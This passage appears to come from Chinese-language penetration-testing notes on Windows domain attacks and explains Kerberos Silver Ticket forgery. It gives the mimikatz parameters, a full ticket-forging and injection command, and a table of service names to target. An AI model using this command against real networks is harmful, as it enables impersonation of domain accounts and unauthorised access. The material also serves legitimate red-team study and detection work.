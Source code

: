 ![Golden_Ticket2](域渗透相关/Golden_Ticket2.png)
		
		
		
## Silver Ticket (白银票据) 

简义 : 发生在上面的过程5，可以伪造TGS(前提是获取服务账号的口令散列值)，宣称自己是域内任何账号，例如域管。

Silver Ticket生成时指定了相关的服务名，因此只能用来访问相应的服务，所以局限性比较大，没有golden ticket好用
    
所需条件(mimikatz生成silver ticket)

    1. /domain
    2. /sid			( S-1-5-21-1239069908-882060383-2558203358-500 注意:不要後面的-500  )
    3. /target:域控全称
    4. /service:目标服务器上面的kerberos服务，此处为cifs
    5. /rc4:域控的计算机账户ntlm hash
    6. /user:要伪造的用户名(可以不存在也可是存在的)
    7. mimikatz.exe "kerberos::golden /domain:域 /sid:SID /target:域全称 /service:要访问的服务 /rc4:NTLM /user:silver /ptt"即可生成并导入Silver Ticket


常用的服务名有以下:
```
服务名称					同时需要的服务
WMI						HOST、RPCSS
PowerShell Remoting		HOST、HTTP
WinRM					HOST、HTTP
Scheduled Tasks			HOST
Windows File Share		CIFS
LDAP					LDAP
Windows Remote Server	RPCSS、LDAP、CIFS
```

